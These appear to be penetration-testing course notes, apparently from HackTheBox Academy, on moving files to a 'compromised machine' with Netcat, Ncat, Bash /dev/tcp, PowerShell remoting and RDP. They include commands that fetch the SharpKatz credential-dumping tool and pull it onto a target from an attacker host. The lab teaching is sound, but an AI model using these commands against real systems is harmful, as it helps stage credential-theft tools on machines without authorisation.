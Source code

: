 ## Miscellaneous File Transfer Methods

We've covered various methods for transferring files on Windows and Linux. We also explored ways to achieve the same goal using different programming languages, but there are still many more methods and applications that we can use.

This section will cover alternative methods such as transferring files using **Netcat**, **Ncat**, and **using RDP and PowerShell sessions**.

---

#### **Netcat**

Netcat (often abbreviated to `nc`) is a computer networking utility for reading from and writing to network connections using TCP or UDP, which means it can be used for file transfer operations.

The original Netcat was released by Hobbit in 1995, but it hasn't been maintained despite its popularity. The flexibility and usefulness of this tool prompted the Nmap Project to produce **Ncat**, a modern reimplementation that supports SSL, IPv6, SOCKS and HTTP proxies, connection brokering, and more.

In this section, we will use both the original Netcat and Ncat.

> **Note**: Ncat is used in HackTheBox's PwnBox as `nc`, `ncat`, and `netcat`.

---

#### **File Transfer with Netcat and Ncat**

The target or attacking machine can initiate the connection, which is helpful if a firewall prevents access to the target. Let's create an example to transfer a tool to our target.

##### Example 1: Using Netcat (Original)

1. On the **compromised machine**, start Netcat listening with:
    
    ```
    nc -l -p 8000 > SharpKatz.exe
    ```
    
2. From the **attacking host**, send the file with:
    
    ```
    wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
    0xs5@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
    ```
    

##### Example 2: Using Ncat

1. On the **compromised machine**, start Ncat with:
    
    ```
    ncat -l -p 8000 --recv-only > SharpKatz.exe
    ```
    
2. From the **attacking host**, send the file with:
    
    ```
    ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
    ```
    

##### Reverse File Transfer

Instead of listening on the compromised machine, we can:

1. On the **attacking host**, listen with:
    
    ```
    sudo ncat -l -p 443 --send-only < SharpKatz.exe
    ```
    
2. On the **compromised machine**, connect to the attacker with:
    
    ```
    ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
    ```
    

##### Alternative Using Bash

If Netcat/Ncat is unavailable on the compromised machine, Bash can perform read/write operations on `/dev/tcp/`:

1. On the **attacking host**:
    
    ```
    sudo nc -l -p 443 -q 0 < SharpKatz.exe
    ```
    
2. On the **compromised machine**:
    
    ```
    cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
    ```
    

---

#### **PowerShell Session File Transfer**

PowerShell Remoting, aka WinRM, can transfer files when HTTP, HTTPS, or SMB are unavailable. PowerShell Remoting uses:

- **TCP/5985** for HTTP
    
- **TCP/5986** for HTTPS
    

##### Example: File Transfer via WinRM

1. Confirm connectivity from **DC01** to **DATABASE01**:
    
    ```
    PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985
    ```
    
2. Create a session:
    
    ```
    PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
    ```
    
3. Transfer files:
    
    - From DC01 to DATABASE01:
        
        ```
        PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
        ```
        
    - From DATABASE01 to DC01:
        
        ```
        PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
        ```
        

---

#### **RDP File Transfer**

**RDP (Remote Desktop Protocol)** allows file transfers using copy/paste or mounting local resources:

1. **From Linux**:
    
    - Using `rdesktop`:
        
        ```
        rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
        ```
        
    - Using `xfreerdp`:
        
        ```
        xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
        ```
        
2. **From Windows**:
    
    - Use **mstsc.exe** to share a local drive during connection.
        

> **Note**: Mounted drives are private to the session and inaccessible to other users.

---

#### **Practice Makes Perfect**

Mastering these techniques is essential for real-world assessments and labs. Apply them in:

- **Active Directory Enumeration and Attacks**
    
- **Pivoting, Tunneling & Port Forwarding**
    
- **Attacking Enterprise Networks**
    
- **Shells & Payloads**
    

Experiment with each method to build muscle memory and adaptability for different environments. In the next section, we'll discuss protecting file transfers when dealing with sensitive data.